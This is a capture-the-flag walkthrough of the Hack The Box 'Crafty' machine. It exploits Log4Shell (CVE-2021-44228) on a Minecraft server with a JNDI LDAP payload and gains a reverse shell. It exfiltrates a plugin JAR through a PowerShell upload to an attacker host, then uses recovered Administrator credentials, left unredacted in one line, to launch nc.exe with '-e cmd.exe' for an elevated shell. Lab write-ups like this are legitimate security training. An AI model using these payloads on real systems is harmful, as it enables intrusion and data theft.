 

Welcome to a comprehensive walkthrough of an Easy level machine in Hack The Box's Seasonal Challenges. Despite its classification, this challenge proves to be more of a medium-level difficulty, particularly if you're not using a pwnbox. 



Our journey begins with an initial reconnaissance phase. Using the powerful network scanning tool nmap, we conduct a scan to identify open ports and services:

```bash
nmap -v -T4 10.10.10.10 --min-rate 5000  -Pn -p- 
```

- `-v`: Increased verbosity for detailed scan output.
- `-T4`: Set timing template for faster scanning.
- `--min-rate 5000`: Specified the minimum packet-per-second rate, optimizing scan speed.
- `-Pn`: Skipped host discovery, treating all hosts as online.
- `-p-`: Scanned all 65535 ports, maximizing service discovery.


The scan reveals two crucial open ports: port 80 hosting a website related to Minecraft and port 25565 hosting the actual Minecraft server.

```plaintext
[] Nmap: PORT      STATE SERVICE
[] Nmap: 80/tcp    open  http
[] Nmap: 25565/tcp open  minecraft
[] Nmap: Read data files from: /usr/bin/../share/nmap
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in
```



We can attempt to connect to this server for more information. I used this repository [MCCTeam/Minecraft-Console-Client](https://github.com/MCCTeam/Minecraft-Console-Client/releases) to connect to the Minecraft service. MCC is a third-party tool used to interact with Minecraft servers via the command line.

After connecting, we get the Minecraft version installed. We can search for related application vulnerabilities on the internet. This application, like many others, utilizes the Java logging library.

We could further observe that this service is vulnerable to CVE-2021-44228. This vulnerability can be exploited to execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.

CVE-2021-44228, a critical vulnerability within the Java logging library, allows arbitrary code execution. Exploiting it involves crafting a payload to manipulate LDAP references, establishing a reverse shell into Crafty's system.

I found this repository [kozmer/log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc/tree/main), which can be used to exploit the vulnerability.

It has a single line use, which sets up the HTTP server, and LDAP referrer and the Java class payload to upload and get us a reverse shell when executed.

```bash
git clone https://github.com/kozmer/log4j-shell-poc.git
```

To make this exploit work, we need to download the relevant dependencies as mentioned in the exploit GitHub page:

```bash
pip install -r requirements.txt
```

Get the compatible version of Java, i.e., '8u20'. Extract and save it with the name 'jdk1.8.0_20' in the same path as that of poc.py file. [Java SE 8 Archive Downloads](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)

Go to the downloaded POC folder and use this command to download the file (for Linux 64-bit systems):

```bash
wget -c --no-cookies --no-check-certificate --header "Cookie: oraclelicense=accept-securebackup-cookie" https://download.oracle.com/otn/java/jdk/8u202-b08/1961070e4c9b4e26a04e7f5a083f551e/jdk-8u202-linux-x64.tar.gz
```

After installing all the dependencies, initiate the Minecraft client to connect to the server:

```bash
┌──(root💀kali)-[/home/kali/Minecraft-Console-Client]
└─# ./MinecraftClient-20240130-245-linux-x64 <username>
```


![Pasted image 20240219014106](assets\305748071-4da6c36b-eff9-4e46-a0cb-d1741d5e92ee.png)

(Note: Press enter when it prompts for a password, as in setting no password. Input server IP (HTB target IP), and we should be connected to the server)

[start netcat listener in 2nd tab]

```bash
nc -nvlp 9001
```

[Execute the POC script in the third tab]

```bash
$ python3 poc.py --userip 10.10.10.10 --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit Java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://10.10.10.10:1389/a}

Listening on 10.10.10.10:1389
```

(If you are connected to HTB VPN, be sure to select the IP associated with the HTB VPN in `--userip`)

Now we need to send this command in the Minecraft console:

```bash
${jndi:ldap://10.10.10.10:1389/a}
```

After sending this command, we receive a reverse shell on our netcat listener. We could see a LDAP redirect and the HTTP 'GET' request to download and execute the payload 'Exploit.class' for the initial foothold.



![Pasted image 20240219014236](HTB\assets\305748026-1b82343a-5382-4ebf-a837-fb68fb639ac1.png)


We can do a few checks on the system to view files, assessable directories, and current privileges.

![Pasted image 20240219014403](HTB\assets\305748059-5a973019-ccc2-4b26-81bd-b357e640c3ae.png)


We've got foothold as a service account `crafty\svc_minecraft` and landed in a Minecraft service directory `C:\users\svc_minecraft\server` . Viewing the files and paths for the Minecraft service hosted, we see few JAR files, and one of them is in the `\plugins` path.

![Pasted image 20240219021701](HTB\assets\305748062-1f010d2e-032c-4ef0-ad3a-976925de537b.png)


![Pasted image 20240219021648](HTB\assets\305748066-6f8ec5d2-1d82-4bbc-baa5-c4881133289e.png)


We need to retrieve those files and check what all data we can get.

For exfiltrating the file from the victim machine, we can do as follows:

Note: The victim host doesn't have a firewall or antivirus configured.

Setup a post HTTP server and host it on the attacker machine:

```bash
sudo python3 SimpleHTTPServerWithUpload.py -b 10.10.10.10 1234
```

On the victim machine, we can use PowerShell to upload the file to the server.

Note: Navigate to the file where the file is located and execute this, or provide the complete file path.

Start PowerShell:

```bash
powershell -ep bypass
```

Upload the file to the server:

```bash
powershell (New-Object System.Net.Webclient).UploadFile('http://10.10.10.10:1234/', 'playercounter-1.0-SNAPSHOT.jar')
```

Verify by checking file hashes on both hosts to check if the file was transferred successfully:

Check file hash on PowerShell (Victim):

```bash
Get-FileHash c:\users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar -Algorithm MD5
```
```plaintext
Algorithm       Hash                                                                   Path                            
---------       ----                                                                   ----                            
MD5             349F6584E18CD85FC9E014DA154EFE03                                       C:\users\svc_minecraft\server...
```

On attacker:

```bash
┌──(kali㉿kali)-[~/SimpleHTTPServerWithUpload]
└─$ md5sum playercounter-1.0-SNAPSHOT.jar 
349f6584e18cd85fc9e014da154efe03  playercounter-1.0-SNAPSHOT.jar
```

We can extract and view the contents, and we could also view these files on any online Java decompiler.

I used [https://www.decompiler.com/](https://www.decompiler.com/)

Reviewing the files, we notice the authentication pattern, consisting of IP, port, and password. We could find one misconfigured test file with the admin credentials of the 'Administrator' account.

We still have low privileges on the host, and we don't have any other running services where this credential can be leveraged.

With the reverse shell already established, we can attempt `runas /user:administrator`, but this method is ineffective as the shell is non-interactive.


>On the attacker machine, we'll host the executable directory containing nc.exe for HTTP download.

```bash
└─$ sudo python3 -m http.server 80                       
sudo: unable to resolve host kali: Name or service not known
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

And initiate a netcat listener for the shell with administrative privileges.

```bash
nc -nvlp 4444
```

>On the victim machine

We'll use PowerShell, capable of storing values in declared variables.

We create a temp directory, download the hosted netcat binary, and execute it with administrative privileges to get a reverse shell with elevated privileges on the attacker machine

```PowerShell
C:\users\svc_minecraft\server\plugins> cd C:\
C:\> 
C:\>mkdir temp
mkdir temp

C:\>cd temp
cd temp

C:\temp>powershell -ep bypass
powershell -ep bypass
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\temp> wget http://10.10.10.10:80/nc.exe -o nc.exe        
wget http://10.10.10.10:80/nc.exe -o nc.exe
PS C:\temp> ls
ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/13/2024   1:50 AM          59392 nc.exe                                                                


PS C:\temp> $secpasswd = ConvertTo-SecureString "s67u84zKq8IXw" -AsPlainText -Force
$secpasswd = ConvertTo-SecureString "<Redacted>" -AsPlainText -Force
PS C:\temp> $mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
PS C:\temp> Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 10.10.10.10 4444 -e cmd.exe" -Credential $mycreds
Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 10.10.10.10 4444 -e cmd.exe" -Credential $mycreds
PS C:\temp> 
```

-- the credentials are redacted, for you to find!!

>On the attacker machine, we successfully get an administrative reverse shell, which can be further exploited to get a meterpreter shell, dump hashes navigate to the user administrator directory to retrieve the root flag!



